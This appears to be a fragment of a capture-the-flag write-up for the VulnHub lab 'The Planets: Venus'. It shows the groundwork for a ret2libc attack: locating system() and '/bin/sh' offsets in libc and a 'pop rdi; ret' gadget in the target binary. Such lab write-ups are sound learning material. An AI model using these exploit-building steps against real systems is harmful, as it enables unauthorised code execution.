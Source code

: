 > Post: [https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc)
{: .prompt-info }

```bash
[magellan@venus ~]$ readelf -s /lib64/libc.so.6 | grep system
  1466: 000000000004a450    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5
```

![Writeup-8.png](/assets/images/Vulnhub/The-Planets-Venus/Writeup-8.png)

```bash
[magellan@venus ~]$ strings -a -t x /lib64/libc.so.6 | grep /bin/sh
 18db66 /bin/sh
```

![Writeup-9.png](/assets/images/Vulnhub/The-Planets-Venus/Writeup-9.png)

```bash
└─$ ropper --file ./venus_messaging.elf --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: ./venus_messaging.elf
0x00000000004015e3: pop rdi; ret;
```
